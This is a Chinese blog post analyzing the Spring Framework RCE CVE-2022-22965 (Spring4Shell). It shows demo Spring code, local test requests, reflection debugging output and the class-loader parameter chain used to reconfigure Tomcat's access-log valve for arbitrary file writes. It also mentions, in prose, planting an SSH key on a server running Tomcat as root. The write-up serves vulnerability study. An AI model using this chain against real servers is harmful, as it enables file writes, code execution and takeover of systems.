


# Spring rce CVE-2022-22965 - 功夫小熊猫 - 博客园

> 原文：[`www.cnblogs.com/vpandaxjl/p/16111441.html`](https://www.cnblogs.com/vpandaxjl/p/16111441.html)

原理大致是这样：spring 框架在传参的时候会与对应实体类自动参数绑定，通过“.”还可以访问对应实体类的引用类型变量。使用 getClass 方法，通过反射机制最终获取 tomcat 的日志配置成员属性，通过 set 方法，修改目录、内容等属性成员，达到任意文件写入的目的。

环境：

jdk9、springmvc、tomcat8

一、先看下传参：

定义 2 个实体类

```
public class User { private String username; private String password; public String getPassword() { return password;
    } public void setPassword(String password) { this.password = password;
    } public String getUsername() { return username;
    } public void setUsername(String username) { this.username = username;
    } public SubTest getSub(){ return new SubTest();
    }
}
```

```
public class SubTest { public void setsubfunction(String s){
        System.out.println("=====");
        System.out.println(s);
        System.out.println("=====");
    }
}
```

定义一个 Controller 类

```
@RestController public class HelloController {
    @RequestMapping("/rce")
    @ResponseBody public String helloTest(User user) throws IOException {
        System.out.println(user.getPassword());
        System.out.println(user.getUsername()); return "hello spring : ";
    }
}
```

不管是 GET 还是 POST，只要是 Controller 接受的方式都可以传参赋值。

利用 POST 方式，传参

```
POST /rce HTTP/1.1 Host: 127.0.0.1:8083 Cache-Control: max-age=0 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36 Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9 Cookie: JSESSIONID=39A8228CB652B1A3CA4E1B49C87C40AF
Connection: close
Content-Length: 15 username=vpanda 
```

这里 username=vpanda 的传参，调用了 User 的 setUsername 方法。

```
POST /rce HTTP/1.1 Host: 127.0.0.1:8083 Cache-Control: max-age=0 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36 Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9 Cookie: JSESSIONID=39A8228CB652B1A3CA4E1B49C87C40AF
Connection: close
Content-Length: 25 sub.subfunction=aaaaatest
```

这里 sub.subfunction=aaaaatest，实际调用 User 的 getSub 方法，获得 SubTest 对象后实现 setsubfunction 方法，传参 aaaaatest，最终实现 SubTest 类型的 setsubfunction。

输出

```
=====
aaaaatest
=====
```

二、接下去直接看 POC 的利用链：

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=
class.module.classLoader.resources.context.parent.pipeline.first.suffix=
class.module.classLoader.resources.context.parent.pipeline.first.directory=
class.module.classLoader.resources.context.parent.pipeline.first.prefix=
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

在这里的实现逻辑是当前 user 对象 getclass 获得了类对象，Class 类中存在 getModule，获得 module 类对象，而 Module 类又存在 getclassloader 方法，最终返回一个类加载器。


 调试输出当前类加载器名称

```
ClassLoader classLoader = user.getClass().getModule().getClassLoader();
```

```
System.out.println("===classloader===");
System.out.println(classLoader);
System.out.println("===classloadername===");
System.out.println(classLoader.getClass().getName());
System.out.println("========");
```

```
===classloader===
ParallelWebappClassLoader
  context: ROOT
  delegate: false
----------> Parent Classloader:
java.net.URLClassLoader@1b7cc17c

===classloadername===
org.apache.catalina.loader.ParallelWebappClassLoader
========
```

通过输出结果可以看到当前对象的类加载器是 org.apache.catalina.loader.ParallelWebappClassLoader，

ParallelWebappClassLoader 继承 WebappClassLoaderBase，WebappClassLoaderBase 实现了 getResources 是 WebResourceRoot 接口类型，

WebResourceRoot 接口存在 getContext 方法，Context 接口类型，继承 Container，Container 实现 parent 和 getPipeline，Pipeline 接口实现 getfirst，

最终得到 Valve 类型，通过类对象遍历所有成员。

```
Valve first = parallelWebappClassLoader.getResources().getContext().getParent().getPipeline().getFirst();
Class<? extends Valve> aClass = first.getClass();
System.out.println("====DeclaredFields=====");
Field[] fields = aClass.getDeclaredFields(); for (Field field : fields) {
    System.out.println(field);
}
System.out.println("====Methods=====");
Method[] methods = aClass.getMethods(); for (Method method : methods) {
    System.out.println(method);
}
```

输出结果，可以看到利用链中几个关键成员的 set 方法。

```
====DeclaredFields=====
private static final org.apache.juli.logging.Log org.apache.catalina.valves.AccessLogValve.log private volatile java.lang.String org.apache.catalina.valves.AccessLogValve.dateStamp private java.lang.String org.apache.catalina.valves.AccessLogValve.directory protected volatile java.lang.String org.apache.catalina.valves.AccessLogValve.prefix protected boolean org.apache.catalina.valves.AccessLogValve.rotatable protected boolean org.apache.catalina.valves.AccessLogValve.renameOnRotate private boolean org.apache.catalina.valves.AccessLogValve.buffered protected volatile java.lang.String org.apache.catalina.valves.AccessLogValve.suffix protected java.io.PrintWriter org.apache.catalina.valves.AccessLogValve.writer protected java.text.SimpleDateFormat org.apache.catalina.valves.AccessLogValve.fileDateFormatter protected java.io.File org.apache.catalina.valves.AccessLogValve.currentLogFile private volatile long org.apache.catalina.valves.AccessLogValve.rotationLastChecked private boolean org.apache.catalina.valves.AccessLogValve.checkExists protected java.lang.String org.apache.catalina.valves.AccessLogValve.fileDateFormat protected volatile java.lang.String org.apache.catalina.valves.AccessLogValve.encoding private int org.apache.catalina.valves.AccessLogValve.maxDays private volatile boolean org.apache.catalina.valves.AccessLogValve.checkForOldLogs ====Methods=====
public void org.apache.catalina.valves.AccessLogValve.log(java.io.CharArrayWriter) public synchronized boolean org.apache.catalina.valves.AccessLogValve.rotate(java.lang.String) public void org.apache.catalina.valves.AccessLogValve.rotate() public java.lang.String org.apache.catalina.valves.AccessLogValve.getEncoding() public void org.apache.catalina.valves.AccessLogValve.setEncoding(java.lang.String) public void org.apache.catalina.valves.AccessLogValve.setRotatable(boolean) public boolean org.apache.catalina.valves.AccessLogValve.isRenameOnRotate() public java.lang.String org.apache.catalina.valves.AccessLogValve.getDirectory() public void org.apache.catalina.valves.AccessLogValve.setCheckExists(boolean) public void org.apache.catalina.valves.AccessLogValve.setDirectory(java.lang.String) public boolean org.apache.catalina.valves.AccessLogValve.isRotatable() public int org.apache.catalina.valves.AccessLogValve.getMaxDays() public void org.apache.catalina.valves.AccessLogValve.setMaxDays(int) public boolean org.apache.catalina.valves.AccessLogValve.isCheckExists() public java.lang.String org.apache.catalina.valves.AccessLogValve.getFileDateFormat() public java.lang.String org.apache.catalina.valves.AccessLogValve.getSuffix() public void org.apache.catalina.valves.AccessLogValve.setRenameOnRotate(boolean) public void org.apache.catalina.valves.AccessLogValve.setBuffered(boolean) public boolean org.apache.catalina.valves.AccessLogValve.isBuffered() public void org.apache.catalina.valves.AccessLogValve.setFileDateFormat(java.lang.String) public void org.apache.catalina.valves.AccessLogValve.setSuffix(java.lang.String) public synchronized void org.apache.catalina.valves.AccessLogValve.backgroundProcess() public java.lang.String org.apache.catalina.valves.AccessLogValve.getPrefix() public void org.apache.catalina.valves.AccessLogValve.setPrefix(java.lang.String) public void org.apache.catalina.valves.AbstractAccessLogValve.invoke(org.apache.catalina.connector.Request,org.apache.catalina.connector.Response) throws java.io.IOException,javax.servlet.ServletException public void org.apache.catalina.valves.AbstractAccessLogValve.log(org.apache.catalina.connector.Request,org.apache.catalina.connector.Response,long) public int org.apache.catalina.valves.AbstractAccessLogValve.getMaxLogMessageBufferSize() public void org.apache.catalina.valves.AbstractAccessLogValve.setMaxLogMessageBufferSize(int) public void org.apache.catalina.valves.AbstractAccessLogValve.setLocale(java.lang.String) public java.lang.String org.apache.catalina.valves.AbstractAccessLogValve.getLocale() public boolean org.apache.catalina.valves.AbstractAccessLogValve.getEnabled() public java.lang.String org.apache.catalina.valves.AbstractAccessLogValve.getCondition() public void org.apache.catalina.valves.AbstractAccessLogValve.setCondition(java.lang.String) public java.lang.String org.apache.catalina.valves.AbstractAccessLogValve.getPattern() public void org.apache.catalina.valves.AbstractAccessLogValve.setConditionUnless(java.lang.String) public void org.apache.catalina.valves.AbstractAccessLogValve.setIpv6Canonical(boolean) public java.lang.String org.apache.catalina.valves.AbstractAccessLogValve.getConditionUnless() public void org.apache.catalina.valves.AbstractAccessLogValve.setPattern(java.lang.String) public boolean org.apache.catalina.valves.AbstractAccessLogValve.getIpv6Canonical() public java.lang.String org.apache.catalina.valves.AbstractAccessLogValve.getConditionIf() public void org.apache.catalina.valves.AbstractAccessLogValve.setConditionIf(java.lang.String) public void org.apache.catalina.valves.AbstractAccessLogValve.setRequestAttributesEnabled(boolean) public boolean org.apache.catalina.valves.AbstractAccessLogValve.getRequestAttributesEnabled() public void org.apache.catalina.valves.AbstractAccessLogValve.setEnabled(boolean) public java.lang.String org.apache.catalina.valves.ValveBase.toString() public org.apache.catalina.Valve org.apache.catalina.valves.ValveBase.getNext() public void org.apache.catalina.valves.ValveBase.setNext(org.apache.catalina.Valve) public java.lang.String org.apache.catalina.valves.ValveBase.getObjectNameKeyProperties() public void org.apache.catalina.valves.ValveBase.setContainer(org.apache.catalina.Container) public java.lang.String org.apache.catalina.valves.ValveBase.getDomainInternal() public org.apache.catalina.Container org.apache.catalina.valves.ValveBase.getContainer() public boolean org.apache.catalina.valves.ValveBase.isAsyncSupported() public void org.apache.catalina.valves.ValveBase.setAsyncSupported(boolean) public final javax.management.ObjectName org.apache.catalina.util.LifecycleMBeanBase.getObjectName() public final java.lang.String org.apache.catalina.util.LifecycleMBeanBase.getDomain() public final javax.management.ObjectName org.apache.catalina.util.LifecycleMBeanBase.preRegister(javax.management.MBeanServer,javax.management.ObjectName) throws java.lang.Exception public final void org.apache.catalina.util.LifecycleMBeanBase.postRegister(java.lang.Boolean) public final void org.apache.catalina.util.LifecycleMBeanBase.preDeregister() throws java.lang.Exception public final void org.apache.catalina.util.LifecycleMBeanBase.postDeregister() public final void org.apache.catalina.util.LifecycleMBeanBase.setDomain(java.lang.String) public final synchronized void org.apache.catalina.util.LifecycleBase.init() throws org.apache.catalina.LifecycleException public final synchronized void org.apache.catalina.util.LifecycleBase.start() throws org.apache.catalina.LifecycleException public final synchronized void org.apache.catalina.util.LifecycleBase.stop() throws org.apache.catalina.LifecycleException public final synchronized void org.apache.catalina.util.LifecycleBase.destroy() throws org.apache.catalina.LifecycleException public org.apache.catalina.LifecycleState org.apache.catalina.util.LifecycleBase.getState() public java.lang.String org.apache.catalina.util.LifecycleBase.getStateName() public void org.apache.catalina.util.LifecycleBase.addLifecycleListener(org.apache.catalina.LifecycleListener) public void org.apache.catalina.util.LifecycleBase.removeLifecycleListener(org.apache.catalina.LifecycleListener) public org.apache.catalina.LifecycleListener[] org.apache.catalina.util.LifecycleBase.findLifecycleListeners() public boolean org.apache.catalina.util.LifecycleBase.getThrowOnFailure() public void org.apache.catalina.util.LifecycleBase.setThrowOnFailure(boolean) public final void java.lang.Object.wait(long,int) throws java.lang.InterruptedException public final void java.lang.Object.wait() throws java.lang.InterruptedException public final native void java.lang.Object.wait(long) throws java.lang.InterruptedException public boolean java.lang.Object.equals(java.lang.Object) public native int java.lang.Object.hashCode() public final native java.lang.Class java.lang.Object.getClass() public final native void java.lang.Object.notify() public final native void java.lang.Object.notifyAll()
```

三、复现

在本地测试实现任意文件写入



将 war 包传到服务器，dnslog 测试


如果使用 root 权限拉起了 tomcat，尝试将 ssh 公钥写入服务器。

